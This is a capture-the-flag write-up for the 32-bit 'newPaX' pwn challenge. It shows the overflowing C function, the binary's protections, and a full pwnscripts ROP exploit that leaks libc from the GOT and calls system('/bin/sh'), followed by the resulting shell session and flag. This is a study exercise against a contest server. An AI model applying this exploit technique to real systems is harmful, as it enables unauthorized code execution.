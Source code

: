 ## Pwn/newPaX
gr4n173

*Even though Solar Designer gave you his times technique, you have to resolve(sort-out) yourself and go deeper. This time rope willn't let you have anything you want but you have to make a fake rope and get everything.*

`nc pwn.darkarmy.xyz 5001`

File: `newPaX`

This challenge was quickly solved with [`pwnscripts`](https://github.com/152334H/pwnscripts)
## Solving
I honestly have no idea what the difference is supposed to be between this challenge and `roprop`. Considering I used the *exact same* exploit for both, I'm guessing a missed a `win()` function somewhere in one of the two binaries.

That aside, let's have a look at the source code:
```c
ssize_t vuln() {
  char buf[0x30]; // [esp+8h] [ebp-30h]
  return read(0, buf, 0xC8u);
}
int main() {
  nvm_init();
  nvm_timeout();
  vuln();
  return 0;
}
```
Again, PIE is disabled:
```python
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
The challenge is 32-bit this time. Which is even more confusing, because this just makes it easier to do what I did in `roprop`:
```python
from pwnscripts import *
context.binary = 'newPaX'
GOT_FUNCS = ['__libc_start_main', 'setvbuf']
DIST = 0x34

p = remote('pwn.darkarmy.xyz', 5001)

r = ROP(context.binary)
r.raw(DIST*b'\0')
r.printf(context.binary.got['__libc_start_main'])    # this will print all three since x32
r.main()
p.sendline(r.chain())

libc_leaks = dict((s,extract_first_bytes(p.recv(4),4)) for s in GOT_FUNCS)
context.libc_database = 'libc-database'
context.libc = context.libc_database.libc_find(libc_leaks)

r = ROP(context.binary)
r.raw(DIST*b'\0')
r.call(context.libc.symbols['system'], [context.libc.symbols['str_bin_sh']])
p.sendline(r.chain())
p.interactive()
```
There's basically no change in the code for this and `roprop`. Strange...
```bash
[+] Opening connection to pwn.darkarmy.xyz on port 5001: Done
[*] Loaded 10 cached gadgets for 'newPaX'
[*] found libc! id: libc6-i386_2.27-3ubuntu1.2_amd64
[*] Switching to interactive mode
$ ls
bin
dev
flag.txt
lib
lib32
lib64
newPaX
$ cat flag.txt
darkCTF{f1n4lly_y0u_r3s0lv3_7h1s_w17h_dlr3s0lv3}
```
But whatever, we get the flag. And apparently we were supposed to use `ret2dlresolve` or something. Even more strange.
